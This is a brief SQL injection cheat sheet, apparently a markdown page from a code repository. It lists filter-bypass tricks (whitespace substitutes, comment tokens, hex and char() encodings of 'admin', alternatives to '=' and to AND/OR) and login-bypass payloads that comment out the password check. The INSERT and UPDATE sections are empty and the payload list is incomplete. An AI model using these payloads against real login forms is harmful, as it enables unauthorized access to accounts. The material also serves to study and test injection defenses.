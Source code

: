 # Cheat Sheet

## # Filter Bypass

### White Space

* /\*\*/&#x20;
* ()
* \+
* \t = %09&#x20;
* \n = %0a

### Comment

* \--
* \#
* /\*\*/

### admin

* reverse("nimda")
* 0x61646d696e
* char(97, 100, 109, 105, 110)
* 0b0110000101100100011011010110100101101110

### =&#x20;

* LIKE
* IN
* REGEXP
* RLIKE
* SOUNDS LIKE

### and, or, not

* ||
* &&
* %26%26 (&&)
* %7c%7c (||)&#x20;
* !



## # SELECT

```sql
SELECT * FROM users WHERE username='{username}' AND password='{password}';
```

### Payload

```sql
/* No filter */
SELECT * FROM users WHERE username='admin'# AND password='{password}';

/* lowercase */
SELECT * FROM users WHERE username='Admin'# AND password='{password}';
SELECT * FROM users WHERE username='Admin'-- AND password='{password}';

/* lowercase */
SELECT * FROM users WHERE username='Admin' AND password='{password}';




```







## # INSERT

```sql
INSERT INTO users VALUES 
```



## # UPDATE

